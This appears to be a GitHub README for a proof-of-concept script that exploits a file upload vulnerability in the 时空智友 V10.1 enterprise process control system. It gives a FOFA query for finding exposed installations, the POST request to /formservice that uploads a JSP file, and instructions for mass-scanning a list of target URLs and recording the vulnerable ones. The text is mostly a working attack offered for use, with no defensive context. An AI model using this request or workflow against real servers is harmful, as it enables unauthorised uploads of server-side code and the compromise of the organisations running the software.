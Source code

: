 时空智友系统文件上传漏洞poc.py

时空智友企业流程化管控系统存在文件上传漏洞
FOFA语句：app=“时空智友V10.1”
POC:POST /formservice?service=attachment.write&isattach=false&filename=a.jsp HTTP/1.1
py脚本
使用：python3 poc.py -f url.txt(存放探测目标url)
存在漏洞的目标url放入result.txt文件
![image](https://github.com/1daomeidan/SKZY-upload/assets/143391153/b6a0f6a4-1e12-4f31-9640-3b7a565b06b5)

![1693383440288](https://github.com/1daomeidan/SKZY-upload/assets/143391153/6460d0b7-6903-4912-a6fb-3d294d04ed80)
![image](https://github.com/1daomeidan/SKZY-upload/assets/143391153/ad6c9696-9cb4-4b94-915f-a4dd06d76af0)
